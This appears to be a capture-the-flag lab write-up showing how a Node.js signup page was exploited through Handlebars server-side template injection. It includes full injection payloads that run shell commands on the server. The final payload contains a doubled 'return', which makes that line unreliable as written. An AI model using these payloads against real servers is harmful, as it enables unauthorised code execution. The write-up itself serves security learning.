







# 1. Enumeration

- The first step í to scan the target IP with nmap to check what ports are open.




# 2. Website Enumeration

- Upon visting port 8, we are presented with a webpage that is currently under construction and the option to subscribe
to updates about the page using an email address.
- Let's provide a test email to verify we have working application:


- Looks like it just reflected back what the user inputted. This could lead us down a trail of thinking about various
potential exploitation vectors like XSS or SSTI.
- `Server Side Template Injection` is an exploitation technique where the attacker injects native code
  (to the Template Engine) into the web page. The code is then run via the Template Engine and the attacker gains
code execution on the affected server.

# 3. Identification

- In order to exploit a potential SSTI vulnerability we will need to first confirm its existence. 
- This <a href ="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection">article</a>
provide a simple, straightforward approach of SSTI for various template engines:



- To test for the vulnerability, lets try inputting `{{7*7}}` into the form. After the payload is submitted, an error
page pops up:



- This means tha the payload was indeed detected as valid by the template engine, however it raised some errors and being 
unable to execute. In this case, we can see that the server is running from the `/root/Backend` directory and the
`Handlebars` Template Engine is being used.

# 4. Exploitation

- Looking back at Hacktricks, we can see that both Handlebars and Node.js are mentioned, as well as payload that can be
used to potentially run commands on a Handlebars SSTI:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- It also mentioned that this should be URL encoded before sending:



- The response shows an error that states: `require is not defined`. So the payload indeed is being run, but `require`
can not be found, so it throws an error.

# 5. Global

- `Global Objects` are variables that are globally accessible throughout all loaded modules. It is worth noting that
the <a href ="https://nodejs.org/api/globals.html#global-objects">documentation</a> also showcases a list of variables
that appear to be global objects, but in fact are built-in objects. These are the following:
```
__dirname
__filename
exports
module
require()
```

- As can be seen, `require` is in fact not in the global scope and therefore in specific cases it might not be 
accessible. Take a closer look at the documentation, we see that there is a <a href ="https://nodejs.org/api/process.html#process">process</a>
object. It states that this object provides information about, and control over, the current Node.js process.
We might be able to use this object to load a module. Let's modify our payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- URL-encode and send it:



- Okay, we're getting something. The response dit not contain an error, which mean the process object is available.
- Final payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return return process.mainModule.require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



- Flag is under `/root/flag.txt`:

